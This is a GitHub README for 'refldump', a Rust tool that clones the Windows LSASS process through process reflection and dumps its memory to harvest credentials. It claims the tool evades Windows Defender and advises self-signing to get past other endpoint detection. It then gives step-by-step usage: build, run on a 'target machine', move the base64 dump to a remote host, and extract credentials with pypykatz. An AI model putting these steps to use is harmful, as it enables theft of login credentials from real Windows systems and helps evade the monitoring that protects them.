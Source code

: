 **refldump** - <br>A lot of Rust code is taken from https://github.com/postrequest/safetydump. I'd like to thank postrequest for this tool and the whole https://github.com/postrequest/link framework. Both were invaluable in helping me learn Rust and end-point exploitation.
           The additions I made on this version are based on https://github.com/hasherezade/pe-sieve/blob/master/utils/process_reflection.cpp. 
           Basically, we use process reflection to obtain a handle for a cloned lsass process and then call minidumpwritedump with the handle to the cloned process. This is very similar to my other verions that either use PSSCaptureSnapshot or CreateToolHelp32Snapshot, to avoid calling minidumpwritedump with the original process handle.<br>
           <BR>As of writing, this tool is not prevented by Windows Defender on latest Win10 build. *If you have issues with other EDR preventions, try self-signing the executable.* This version is not currently working with Win11. I think I know the problem, so I'll revisit and push a Win11 compatible version at some point.
  
  **usage**: 
  <BR>`git clone https://github.com/Teach2Breach/dev.git`<BR>
  `cd .\dev\rust\lsass\refldump\`
  <Br>compile with Rust:<BR> `cargo build --release`
  <BR>run the binary on target machine:<BR> `.\repldump.exe`
    <BR>
      a randomly named .bin file will be generated with the dump. It is base64 encoded. I recommend you move this file to a remote linux host for decoding as follows:
      <BR>`base64 -d dsaifluk.bin > dump.bin`<BR>
        `pypykatz lsa minidump dump.bin`<BR>
        
            
